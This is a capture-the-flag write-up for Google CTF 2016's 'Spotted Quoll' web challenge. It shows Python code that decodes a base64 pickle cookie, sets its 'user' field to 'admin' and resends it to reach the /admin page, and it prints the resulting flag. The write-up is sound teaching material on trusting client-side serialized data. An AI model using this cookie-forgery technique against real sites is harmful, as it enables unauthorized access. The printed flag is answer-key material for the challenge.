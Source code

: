 # Google CTF 2016 : Spotted Quoll

**Category:** Web
**Points:** 50
**Solves:** 413
**Description:**

[This](https://spotted-quoll.ctfcompetition.com/) blog on Zombie research looks like it might be interesting - can you break into the /admin section?


## Write-up

### Investigate
I start by enabling developer toolbar on Google Chrome and start capturing the network traffic.

I notice an 'Admin' button at the top of the page.  When I click on it, I just get redirected to the homepage and notice my URL bar updates as followed:
```
https://spotted-quoll.ctfcompetition.com/#err=user_not_found
```

However, I notice my browser downloaded a cookie at some point.

It looks like the cookie was retrieved from a 'GET' request at '/getCookie'.  This information will be useful when implemeting the script later.
```
Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu
```

I have heard of 'pickle' before.  It's a format for serializing data, usually over a network.  Very similar to JSON.  I tried loading the above data directly into pickle.  But unfortunately, it threw an exception.

However, the pickle could be simply encoded in another format, perhaps base64....
```
>>> from base64 import b64decode
>>> b64decode('KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu')
"(dp1\nS'python'\np2\nS'pickles'\np3\nsS'subtle'\np4\nS'hint'\np5\nsS'user'\np6\nNs."
```

Ok, that looks a lot more like pickle data to me, let's load it up in Python.

### Code

Load the pickle data
```python
#Decode the base64 pickle
pickb64 = cookie['obsoletePickle']
pick = b64decode(pickb64)

#Write the pickle to a tmp file
tmpf = 'tmp.p'
f = open(tmpf, 'wb')
f.write(pick)
f.close()

#load the pickle
obsoletePickle = pickle.load(open('tmp.p', 'rb'))
print('%s' % str(obsoletePickle))
```

Print the pickle data
```
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

### Exploit
From the formatted pickle data, it should be pretty clear what's going on.  The 'user' field is set to None.  This is because we are not logged in.  I think we can trick the webiste!  Why don't we login as the admin by setting our 'user' attribute to 'admin'.

Modify the pickle data so that it reads...
```
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}
```

Modify pickle data and dump back to raw data
```python
obsoletePickle['user'] = 'admin'

#Write to spoofed pickle to a new file
pickle.dump(obsoletePickle, open('spoofed.p', 'wb'))
spooff = 'spoofed.p'

#Read back as plain data
f = open(spooff, 'rb')
pick = f.read()
f.close()
```

Create the new cookie (encoded in base64)
```python
spoofed_cookie = dict(obsoletePickle=b64encode(pick))
```

Perform the attack to login to the admin page 'admin'
```
r = requests.get(URL + 'admin', verify=False, cookies=spoofed_cookie)
print(r.text)
```

### Script Output
```
HTML:
<html>
<head>
  <link href="/static/bootstrap.min.css" rel="stylesheet">
  <link href="/static/jumbotron-narrow.css" rel="stylesheet">
</head>
<body>

    <div class="container">
      <div class="header clearfix">
        <nav>
          <ul class="nav nav-pills pull-right">
            <li role="presentation" class="active"><a href="#">./boringblog</a></li>
            <li role="presentation"><a href="/admin">Admin</a></li>
          </ul>
        </nav>
        <h3 class="text-muted">yawn</h3>
      </div>

      <div class="jumbotron">
        <h1>My Zombie Research Project</h1>
        <p class="lead">./boringblog</p>
      </div>

      <div class="row marketing">
        <div class="col-lg-12">
          <h3>Blog Development - 20th January, 2016</h3>
          <p>I don't have much content yet, except for my admin page. Stay tuned for more information</p>
        </div>
      </div>
      <iframe style="border: 0;" src="/getCookie"></iframe>
    </div> <!-- /container -->

</body>
</html>

Cookies:
<RequestsCookieJar[<Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu for spotted-quoll.ctfcompetition.com/>]>

Real Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': None}

Spoofed Admin Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
```

Flag
```
CTF{but_wait,theres_more.if_you_call}
```

[Python script](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/SpottedQuoll/pwn.py)
